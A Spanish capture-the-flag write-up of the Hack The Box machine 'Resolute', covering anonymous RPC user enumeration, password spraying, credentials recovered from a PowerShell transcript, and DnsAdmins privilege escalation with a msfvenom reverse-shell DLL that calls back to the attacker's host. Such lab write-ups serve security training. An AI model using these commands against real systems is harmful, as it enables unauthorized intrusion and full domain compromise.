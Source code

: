```yaml
---
layout: single
title: Resolute - Hack The Box
excerpt: "Máquina Windiws AD muy sencilla"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-resolute/resolute1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - binary exploit  
---
```


# 10.10.10.169 - Resolute

![](/assets/images/htb-resolute/resolute1.png)

--------------------------
# Part 1: Enumeración

Puertos abiertos -> 53(dns),88(kerberos),135(rcp),139,389(ldap),445(smb),464,593(http),636,3269,3268(ldap),5985(winrm),9389.

Primero intentamos sacar el nombre del dominio:
```console
└─$ crackmapexec smb 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)

└─$ smbmap -H 10.10.10.169 -u "cucuxii"
# No nos dejan acceder sin creds
```

## Puerto 53:
```console
└─$ dig @10.10.10.169 megabank.local ns
# megabank.local resolute.megabank.local
└─$ dig @10.10.10.169 megabank.local mx 
# hostmaster.megabank.local
```
## Puerto 135 RPC:
```console
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' -c 'enumdomgroups' # Domain Admins (0x200)
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querygroupmem 0x200' # -> rid 0x1f4
└─$ rpcclient -U "" -N 10.10.10.169 -c 'queryuser 0x1f4' # -> Administrator
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querydispinfo' 
# Account: marko	Name: Marko Novak # Cuenta creada. Contraseña Welcome123!
```

Vamos a ver si funciona esta contraseña...
```console
└─$ smbmap -H 10.10.10.169 -u marko -p 'Welcome123!' # Error de autenticación
└─$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
└─$ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
# Tiene acceso a NETLOGON, SYSVOL e $IPC pero dentro no encuentro nada interesante
└─$ crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

--------------------------
# Part 2: En el sistema: Carpetas ocultas en disco C

```console
└─$ evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
Subo mi script pero no encuentra nada interesante. Mi usaurio tampoco tiene nada interesante.     
En C:Users existe la carpeta home de otro usaurio, "ryan", no me deja acceder.   
```console
*Evil-WinRM* PS C:\Users\ryan> net user ryan
Global Group memberships     *Domain Users         *Contractors
```
Pero no parece que este grupo sirva para mucho...    
Encontramos en C una carpeta inusual "PSTranscripts" con dentro:  
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
Dentro del script encontramos la frase "cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!"  

--------------------------
# Part 3: Escalando privilegios: Grupo DnsAdmins  
```console
└─$ evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
En el escritorio tiene una nota:  
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email para el equipo:

- Como se congela el sistema cuando se aplican cambiosm todos esos cambios se revertiran en un minuto (salvo los
que haga el administrador)

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups /fo list | findstr "Name"
MEGABANK\DnsAdmins
``` 
Este grupo es vulnerable. La manera de explotarlo se dice [aquí](https://lolbas-project.github.io/#)
Basicmanete si cargas una dll maliciosa, al resetear el servicio dns se aplica.  

```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=666 -f dll -o wtf.dll
└─$ impacket-smbserver carpeta $(pwd) -smb2support

*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\carpeta\wtf.dll
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

└─$ rlwrap nc -lnvp 666
C:\Windows\system32> whoami
nt authority\system
```
